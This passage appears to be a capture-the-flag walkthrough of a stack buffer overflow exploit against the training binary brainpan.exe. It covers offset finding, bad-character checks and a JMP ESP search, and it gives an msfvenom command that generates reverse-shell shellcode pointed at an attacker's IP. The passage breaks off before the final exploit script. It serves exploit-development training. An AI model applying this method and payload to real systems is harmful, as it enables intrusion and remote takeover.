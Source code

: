 #### **Find the EIP Offset**

* Use Metasploit tools:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

* Replace `"A"*600` in your script with the generated pattern.
* Note the EIP value in Immunity (For example: `35724134`), and find its offset:

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134
```

Suppose it returns **524**, then confirm by sending:

```
"A"*524 + "B"*4 + "C"*(600-524-4)
```

#### **Check for Bad Characters**

* Generate a byte string of all possible values (`\x01` to `\xff`):

```python
badchars = b"".join([bytes([x]) for x in range(1, 256)])
```

* Inject it after your 524 `A`s and 4-byte padding.
* Use Immunity → **Right-click ESP → Follow in Dump**, and inspect if any bytes are missing or altered.
* Exclude bad chars.

#### **Find a JMP ESP Instruction**

* Install and use `mona.py`:

```
!mona modules
```

Look for a module with no memory protections (like DEP, ASLR, etc.).

* Find the `JMP ESP` address in the chosen module:

```
!mona find -s "\xff\xe4" -m brainpan.exe
```

* Suppose the address is `0x311712f3`, convert it to little-endian:

#### **Create the Final Exploit Payload**

* Generate shellcode (reverse shell, bind shell, etc.) with `msfvenom`:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR_IP> LPORT=4444 EXITFUNC=thread -b "\x00" -f python
```

Update your script:
